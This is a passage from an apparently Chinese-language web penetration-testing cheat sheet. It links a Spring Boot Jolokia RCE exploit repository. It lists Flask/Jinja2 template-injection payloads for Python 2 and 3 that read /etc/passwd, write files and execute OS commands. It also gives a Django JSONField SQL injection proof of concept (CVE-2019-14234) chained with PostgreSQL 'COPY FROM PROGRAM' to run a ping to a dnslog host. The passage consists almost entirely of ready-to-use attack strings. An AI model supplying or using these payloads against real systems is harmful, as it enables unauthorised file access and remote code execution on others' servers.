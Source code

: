 #### 2. Jolokia rce

```
[exp项目地址](https://github.com/mpgn/Spring-Boot-Actuator-Exploit)
```

九. python
---------

#### 1. flask-ssti

```
python2
```
    #读文件
    `{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`
    {{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
    #写文件
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
    #执行指令
    {{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}(这条指令可以注入，但是如果直接进入python2打这个poc，会报错，用下面这个就不会，可能是python启动会加载了某些模块)
    {{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}(system函数换为popen('').read()，需要导入os模块)
    {{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}(不需要导入os模块，直接从别的模块调用)
    ```
    python3
```
    #文件读取
    {{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
    #任意执行
    {{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}}
    ```
```

#### 2. Django-JSONfield-sql 注入 (CVE-2019-14234)

```
影响版本  
>Django  
>1.11.x before 1.11.23  
>2.1.x before 2.1.11  
>2.2.x before 2.2.4  
    poc
`http://目标/admin/vuln/collection/?detail__title')='1' or 1=1--`
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcrgzp4RG4S3Q2Aw8qomGFia0ichQPAFMEv4wleGHtPcNuoVsfA77GKHPVTkmSiao9yRibyMbxiccyMxMAA/640?wx_fmt=png)  
结合`CVE-2019-9193`构造`?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20`  
因为是无回显执行，使用`ping`命令结合`dns_log`判断是否执行  
`?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'ping just.erh3bt.dnslog.cn'--%20`
